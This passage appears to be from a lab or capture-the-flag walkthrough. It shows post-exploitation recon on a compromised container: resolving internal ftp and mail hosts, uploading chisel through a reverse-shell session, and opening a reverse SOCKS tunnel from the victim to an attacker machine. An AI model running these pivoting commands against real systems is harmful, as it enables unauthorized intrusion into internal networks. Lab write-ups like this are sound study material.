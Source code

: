 Let's recon around. As we know that there is a ftp and mail service running on the machine. <br>
We can use [getent](https://man7.org/linux/man-pages/man1/getent.1.html) to IP address look up.

```bash
user@7bfb70ee5b9c:/app$ getent hosts ftp
172.19.0.3      ftp
user@7bfb70ee5b9c:/app$ getent hosts mail
172.19.0.7      mail
```

Found out that the ftp service is running on `172.19.0.3` and the mail service is running on `172.19.0.7`. <br>

### FTP
Let's tunnel this shell back to our kali to discover more about these services. <br>
&rarr; I will use [chisel](https://github.com/jpillora/chisel) to do this. Can grab the binary from [here](https://github.com/jpillora/chisel/releases/tag/v1.10.1).

```bash
└─$ wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz

└─$ gunzip chisel_1.10.1_linux_amd64.gz

└─$ mv chisel_1.10.1_linux_amd64 chisel

└─$ chmod +x chisel
```

```bash
(Penelope)─(Session [1])> interact
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/7bfb70ee5b9c~10.129.2.68-Linux-x86_64/2025_06_16-10_55_20-631.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
bash: /root/.bashrc: Permission denied
user@7bfb70ee5b9c:/app$ cd /tmp
[!] Session detached ⇲

(Penelope)─(Session [1])> upload chisel
[+] Upload OK /tmp/chisel-QsYxirww
```

Remember to add `socks5 127.0.0.1 1080` to `/etc/proxychains.conf` or `/etc/proxychains4.conf`.

On our kali machine:
```bash
└─$ ./chisel server --reverse --port 9000
2025/06/16 11:01:31 server: Reverse tunnelling enabled
2025/06/16 11:01:31 server: Fingerprint QNqEO+PxnLm10L77HmbaNmC5Qo0mx9RlOE1nscRDjts=
2025/06/16 11:01:31 server: Listening on http://0.0.0.0:9000
```

Victim machine:
```bash
user@7bfb70ee5b9c:/tmp$ ./chisel-QsYxirww client 10.10.14.10:9000 R:1080:socks
2025/06/16 15:06:02 client: Connecting to ws://10.10.14.10:9000
2025/06/16 15:06:03 client: Connected (Latency 35.959347ms)
```
